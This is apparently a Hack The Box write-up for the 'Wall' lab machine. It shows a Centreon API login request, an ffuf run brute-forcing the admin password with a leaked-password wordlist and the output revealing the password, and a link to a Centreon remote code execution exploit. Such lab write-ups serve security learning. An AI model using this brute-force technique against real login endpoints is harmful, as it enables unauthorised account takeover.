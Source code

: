 ## Wall machine on HTB
### URL: https://app.hackthebox.com/machines/208
### Difficulty: Medium

## Solution:
### Usage of weak login credentials at http://10.10.10.157/centreon/api/index.php?action=authenticate
**Example Request:**
```
POST /centreon/api/index.php?action=authenticate HTTP/1.1
Host: 10.10.10.157
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

username=admin&password=FUZZ
```
**Fuzzing the login creds:**
```
soliman@Legion:~/wordlists$ ffuf --request req  -request-proto http -w darkweb2017_top-1000.txt -fc 403

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.10.157/centreon/api/index.php?action=authenticate
 :: Wordlist         : FUZZ: /home/soliman/wordlists/darkweb2017_top-1000.txt
 :: Header           : Host: 10.10.10.157
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

password1               [Status: 200, Size: 61, Words: 1, Lines: 1, Duration: 1015ms]
:: Progress: [999/999] :: Job [1/1] :: 346 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
soliman@Legion:~/wordlists$
```


### References: 
#### Centreon 19.04 - Remote Code Execution: https://www.exploit-db.com/exploits/47069
